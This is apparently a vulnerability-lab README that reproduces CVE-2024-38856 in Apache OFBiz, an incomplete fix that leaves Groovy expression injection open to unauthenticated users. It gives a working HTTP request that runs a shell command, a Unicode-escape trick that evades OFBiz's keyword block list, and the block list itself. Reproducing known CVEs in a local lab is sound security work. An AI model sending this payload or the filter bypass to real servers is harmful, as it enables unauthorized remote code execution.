

# Apache OFBiz Authentication Bypass Leads to RCE (CVE-2024-38856)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467). In Apache OFBiz version 18.12.11, the developers believe they have fixed the vulnerability, but in reality, they have only addressed one method of exploiting it. The Groovy expression injection still exists and allows unauthorized users to execute arbitrary commands on the server.

References:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7>
- <https://forum.butian.net/article/524>
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.14 server:

```
docker compose up
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

Send following request to execute command `id` by Groovy script:

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```



Noted that Apache Ofbiz restricts the use of the following keywords, but we can bypass this restriction using Unicode characters like `\u0065xecute`.

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```
